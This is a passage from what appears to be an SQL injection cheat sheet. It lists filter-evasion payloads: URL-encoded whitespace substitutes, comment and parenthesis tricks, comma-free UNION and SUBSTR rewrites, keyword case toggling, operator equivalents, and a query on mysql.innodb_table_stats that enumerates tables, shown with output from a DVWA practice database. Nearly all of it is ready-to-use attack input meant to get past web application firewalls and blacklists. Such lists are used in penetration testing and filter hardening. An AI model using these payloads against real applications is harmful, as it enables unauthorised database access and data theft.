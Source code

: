 No Space (%20) - bypass using whitespace alternatives
```sql
?id=1%09and%091=1%09--
?id=1%0Dand%0D1=1%0D--
?id=1%0Cand%0C1=1%0C--
?id=1%0Band%0B1=1%0B--
?id=1%0Aand%0A1=1%0A--
?id=1%A0and%A01=1%A0--
```

No Whitespace - bypass using comments
```sql
?id=1/*comment*/and/**/1=1/**/--
```

No Whitespace - bypass using parenthesis
```sql
?id=(1)and(1)=(1)--
```

No Comma - bypass using OFFSET, FROM and JOIN
```sql
LIMIT 0,1         -> LIMIT 1 OFFSET 0
SUBSTR('SQL',1,1) -> SUBSTR('SQL' FROM 1 FOR 1).
SELECT 1,2,3,4    -> UNION SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT 4)d
```

Blacklist using keywords - bypass using uppercase/lowercase
```sql
?id=1 AND 1=1#
?id=1 AnD 1=1#
?id=1 aNd 1=1#
```

Blacklist using keywords case insensitive - bypass using an equivalent operator
```sql
AND   -> &&
OR    -> ||
=     -> LIKE,REGEXP, not < and not >
> X   -> not between 0 and X
WHERE -> HAVING
```

Information_schema.tables Alternative
```sql
select * from mysql.innodb_table_stats;
+----------------+-----------------------+---------------------+--------+----------------------+--------------------------+
| database_name  | table_name            | last_update         | n_rows | clustered_index_size | sum_of_other_index_sizes |
+----------------+-----------------------+---------------------+--------+----------------------+--------------------------+
| dvwa           | guestbook             | 2017-01-19 21:02:57 |      0 |                    1 |                        0 |
| dvwa           | users                 | 2017-01-19 21:03:07 |      5 |                    1 |                        0 |
...
+----------------+-----------------------+---------------------+--------+----------------------+--------------------------+

mysql> show tables in dvwa;
+----------------+
| Tables_in_dvwa |
+----------------+
| guestbook      |
| users          |
+----------------+

```